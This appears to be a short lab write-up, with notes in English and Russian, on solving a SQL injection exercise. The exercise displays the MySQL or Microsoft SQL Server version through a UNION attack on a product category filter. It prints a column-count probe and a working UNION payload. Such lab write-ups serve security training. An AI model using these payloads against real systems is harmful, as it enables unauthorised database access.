

# Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Description

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

## What it means?

Это значит, что нужен `MySQL/Microsoft version query`:

```sql
SELECT @@version
```

## Preparation

Снова надо определить кол-во столбцов через `ORDER BY 1--`
```sql
' ORDER BY 2-- -
```

Здесь необходимо после комментария добавить пробел, 
но его обрезает, поэтому добавляем еще один символ

## Payload

```sql
' UNION SELECT @@version, NULL-- -
```


